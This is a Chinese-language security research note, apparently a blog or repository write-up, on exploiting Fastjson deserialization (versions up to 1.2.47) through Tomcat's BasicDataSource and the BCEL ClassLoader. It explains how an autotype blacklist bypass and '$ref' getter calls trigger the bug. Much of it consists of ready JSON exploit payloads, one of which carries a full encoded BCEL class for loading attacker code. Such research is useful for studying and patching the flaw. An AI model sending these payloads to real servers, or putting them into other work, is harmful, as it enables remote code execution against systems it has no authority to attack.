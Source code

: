 ## 前言

在`Fastjson`中一般有三种方式

1. TemplatesImpl
2. JNID注入
3. 加载BCEL字节码

第一种利用条件比较苛刻,需要解析JSON的时候需要使用Feature。第二种需要连接我们的恶意服务器,如果目标不出网的话也很难利用。第三种的话可以直接通过Classloader加载恶意类,相比之前两种利用条件更小,但是在fastjson在1.2.25中将BasicDataSource加入了黑名单。不过在fastjson版本<=1.2.47可以用缓存机制进行黑名单绕过



关于如何调用的大佬已经总结的比较详细了

https://kingx.me/Exploit-FastJson-Without-Reverse-Connect.html

不过这句话有点没看懂:

![image-20211022172331267](BCEL/image-20211022172331267.png)

该方法还有JDK版本的限制。在JDK版本8u251之后是无法利用的,想了解详情的可以看一下

https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html

我这里简单总结一下

注意:

> tomcat7
>
> org.apache.tomcat.dbcp.dbcp.BasicDataSource
>
> tomcat8及其以后
>
> org.apache.tomcat.dbcp.dbcp2.BasicDataSource

## fastjson<=1.2.36

```json
{
    {
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$"
        }
    }: "x"
}
```

绕过autotype:

```json
{
    "name2":
    {
        "@type" : "java.lang.Class",
        "val"   : "org.apache.tomcat.dbcp.dbcp.BasicDataSource"
    },
    "x" : {
        "name": {
            "@type" : "java.lang.Class",
            "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        {
        "y":{
            "@type":"com.alibaba.fastjson.JSONObject",
            "c": {
                "@type":"org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                "driverClassLoader": {
                    "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },                  "driverClassName":"$$BCEL$$",
           	 	}
	    }
}:"xxx"   
    }
}

```

来看一下如何调用的toString

在进行反序列化时,如果发现了我们的class为JSONObject.class,则会调用key.togString()来触发get方法(此时我们的key为JSONObject对象,value为"xxx")

![image-20211019115408145](BCEL/image-20211019115408145.png)

当`fastjson>=1.2.37`时,这种payload就用不了了,在差不多的地方找到了这个:

![image-20211022162203103](BCEL/image-20211022162203103.png)

现在还加了一个`key==null`,导致我们无法使用



## 1.2.36<=fastjson<=1.2.47

当`fastjson`版本>=`1.2.36`时，我们可以使用`$ref`的方式来调用任意的`getter`

可以看一下这篇文章:https://paper.seebug.org/1613/#1

```json
{
    "name2":
    {
        "@type" : "java.lang.Class",
        "val"   : "org.apache.tomcat.dbcp.dbcp.BasicDataSource"
    },
    "x" : {
        "name": {
            "@type" : "java.lang.Class",
            "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        "y":{
            "@type":"com.alibaba.fastjson.JSONObject",
            "c": {
                "@type":"org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                "driverClassLoader": {
                    "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },      
 "driverClassName":"$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$adT$5bO$TA$Y$3dS$K$db$ae$5b$b9$94$8bx$bf$a1$a5$uE$c5$xx$r$Q$89$f5$SK4$c6$a7a$Z$cb$60$bb$dbl$a7$a6$Y$ff$8f$af$fa$a2F$T$7f$80$3fJ$3d$b3$5d$wb$lM$d3$d9$f9n$e7$3bs$e6$db$fd$f1$f3$ebw$A$f3$b8$e7$o$8b9$X$Xp1$83K$f69$ef$e0$b2$8b$7e$5cqp$d5$85$839$H$d7$i$5cwpC$60$60Q$H$da$dc$S$e8$xL$3f$TH$_$85$hJ$60$b0$ac$D$f5$a8U_W$d1$9a$5c$af$d13R$O$7dY$7b$s$pm$ed$c4$v$f8$l$xo$c97$b2$a4$c3$d2$ea$e3$e5$b6$af$gF$87$c1$C$91$cc$a6n$Kd$cb$cb$edF$z$d4$86$ae$5c$c5H$ff$f5C$d9$88$cbI$86$bc$98X$97$3a$Q$Y$_$bc$ec$m$d5dP$zUL$a4$83$eaBLIFU$C$e5$7b$84$F$i$d5A$X$Y$ae$w$f3x$7dK$f9f5h$g$Z$f8$e4$b6Q$d8U$d3$J$$$c4$9ev$v$90u$o$94$k$c9$ba$da$e3Z$K$D$a3$daIb$a9et$adt_67$8d$e5$bc0$fd$_$m$a5$L$d7$b7$acB$3dBi$82$92H$beGW$92$b7$c1$r$d3$e6$e1$7bS$Q$d8$a7$827$3a$K$83$ba$KLW$eb$3d$9cl$f9_$97$b3$dd$d8$b9$a0$c9$5e$F$8b$c5$e2$z$W$b9$dd$dbj$3a$a0$9d$ad$e8j$mM$xb$dd$e6$ff$W$$$ee$d9S$bc$cc$a2_KF$d0$ad$84$ad$c8W$x$daR$f7$92$b9$99$b55$k$3c$e4$i$yz$b8$J$s$a6yZ$df$c3m$dc$a1$b4$3d$c6$cf$c3$5d$e4$a8$ef$f2$cep$M$edm$yp$f4$_$ee$cd$86N$o$x$d27a$b4$z0$ba$D$5cQ$d4$b5$a6$dfv$q$cd$ff$81$ea$f6$e3$f4$fd$f1$3em$FF$dbKw9$91$5dc$ac$b0$fb$f4$89$db$O$88j$x_$e0l$a1$c7$f0$efr$3d$89B_5$9b$y$Yl0h$e27i$z$92$be$c2$J$be$d1Y$a4$e0b$l$df$ff4$84$d5$8a$eb$7eZ$ef$e8O$f19$5e$fc$M$f1$F$a9$91$beOH$3f$7f$8fLy$e6$T$G$3e2$x$cd$dc$n$7e$h$fa0$c8$bc$83$Y$e0$3aLo$9e$feqFFi$8d$f17$c1$3dq$88f$a3$c3$Ya$ad$b5$f3$cc$A$e3$60$3c$f5$8b$8bp$e8$e52$91$s$ab$D$98L$98$dcM$98d$bf$c1y$f1$99$E$3e$d2H$c5M$dd80$89$M$db$ef4a$o$adC$7cf$Ip$98M$f8$b5$c1$R$i$rQ$L$f7$8aV$bfE$Q$l$b8v$c8$P$c4$94$8e$c4$Y$f3$9dhB$cf$ee$8e$e1x$iOQ$b0$93q$87$UN$e14k$edn$Kgx$ac$b3$dc$7bI$d6$U$K$f4L$t$92$W1$T$7b$cf$91$cf$f9$ae$bc$92$k$9b$3d$b2$5b$da$H$c5DZ$7b$G$af$x$edx$cc$c8$a3o0$be$a0$i$R$86$c9u$u$e9$99Kd$ed$88$e9$mU$8e5$U$98$8d$h$97$7e$D$e3J$d4$G$e0$F$A$A",
                 "$ref": "$.x.y.c.connection"
            }
        }
    }
}
```

最后漏洞的触发点:

![image-20211022153534847](BCEL/image-20211022153534847.png)

不过自己也发现了和之前一样的通过`JSONObject#toString`进行调用(虽然还不知道有什么用)

```json
{
    "name2":
    {
        "@type" : "java.lang.Class",
        "val"   : "org.apache.tomcat.dbcp.dbcp.BasicDataSource"
    },
    "x" : {
        "name": {
            "@type" : "java.lang.Class",
            "val"   : "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        {
        "y":{
            "@type":"com.alibaba.fastjson.JSONObject",
            "c": {
                "@type":"org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                "driverClassLoader": {
                    "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },                  "driverClassName":"$$BCEL$$",
                 "$ref": "$."
           	 	}
	    }
}:"xxx"   
    }
}
```

这种的话就还是和之前的一样调用`JSONObject#tostring()`来触发的,所以`payload`中的`$ref`的`value`是随便填的

漏洞触发点:

这里有一个getObject(ref)方法

![image-20211022154724559](BCEL/image-20211022154724559.png)

跟进去

这里会挨着将存入content的path与$ref的path相比较,如果相同则会进入if语句。

![image-20211022155705112](BCEL/image-20211022155705112.png)

当i=7时,将会获得我们构造的`JSONObject`,然后调用toString方法,触发get方法

![image-20211022160056480](BCEL/image-20211022160056480.png)

